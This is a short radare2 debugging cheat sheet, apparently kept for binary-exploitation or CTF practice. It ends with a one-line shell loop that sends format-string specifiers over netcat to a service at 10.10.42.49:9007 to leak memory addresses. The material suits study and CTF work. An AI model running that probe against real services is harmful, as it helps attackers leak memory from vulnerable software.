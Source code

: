 

# RADARE2 CheatSheet
```
# Start radare2
r2 -R stdin=payload -d -A ./babyecho

# disas
pdf @ main

# Set breakpoints, e.g., before and after the call
db 0x12312312

#prints stack at address
pxr @ 0xadresscomeshere

# Print section
pxr @ section..got.plt

#prints string at adress
ps @ 0xaddresscomeshere

#prints 30 bytes from rsp
pxr 30 @ rsp

#print registers
dr

#prints current section
iS.

#execution continue
dc

# Continue for 1 command
ds

-   `pxa @ rsp` - to show annotated hexdump
-   `pxw @ rsp` - to show hexadecimal words dump (32bit)
-   `pxq @ rsp` - to show hexadecimal quad-words dump (64bit)
-   `ad@r:SP` - to analyze the stack data
# Restart program
oo

# Display vaariables
avfd
.afvd local_4h
```

# Random Scripts
## Leak addresses - format string vuln 
```
for i in `seq 1 20`; do timeout 1 echo -e "%$i\$lX" | nc -q 1 10.10.42.49 9007 | grep "Your current streak:";done
```